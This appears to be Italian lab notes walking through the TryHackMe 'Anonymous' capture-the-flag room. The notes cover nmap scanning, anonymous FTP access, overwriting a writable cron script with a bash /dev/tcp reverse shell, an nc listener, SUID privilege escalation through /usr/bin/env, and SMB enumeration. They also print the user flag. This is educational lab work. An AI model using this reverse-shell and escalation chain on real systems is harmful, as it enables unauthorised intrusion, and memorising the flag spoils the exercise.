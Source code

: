 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/anonymous

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.190.149 -oG risultatoscan
```

```
sudo nmap -sC -sV -p 21,22,139,445 10.10.190.149 -oN risultatoscan2
```
permessi di scrittura su NSE
```
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
```


```
ftp 10.10.190.149                                                                
```

```
anonymous
```

```
passive off
```

```
ftp> ls

ftp> passive off

ftp> ls

ftp> cd scripts

ftp> ls

-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1032 Aug 03 13:26 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt

```
leggiamo o scarichiamo i file
```
less to_do.txt
```

```
mget clean.sh
```

```
nano clean.sh   
```

```
#!/bin/bash
bash -i >& /dev/tcp/10.21.9.220/1234 0>&1
```
ci riconnettiamo ftp ed uplodiamo il file modificato con reverse shell
```
put clean.sh
```

ci mettiamo in ascolto

```
nc -nlvp 1234
```

```
cat user.txt
```
flag!
```
90d6f992585815ff991e68748c414740
```

facciamo trattamento della console e poi
```
find / -user root -perm -4000 -print 2>/dev/null
```

==GTFOBins==
https://gtfobins.github.io/
==va dato sulla rotta assoluta del binario! /usr/bin/env==
```
/usr/bin/env /bin/sh -p
```

```
siamo root!
```

```
whoami
```

```
root
ls
pics  user.txt
cd /root
ls
root.txt
cat root.txt
```
flag!
```
4d9xxxxxxxxxxxxxxxxxxxxx
```

```
smbclient -L 10.10.190.149 
```
inoltre per
==vedere servizi in condivisione==
```
smbmap -H 10.10.190.149 
```

condivisione su pc utente
pics            Disk      My SMB Share Directory for Pics
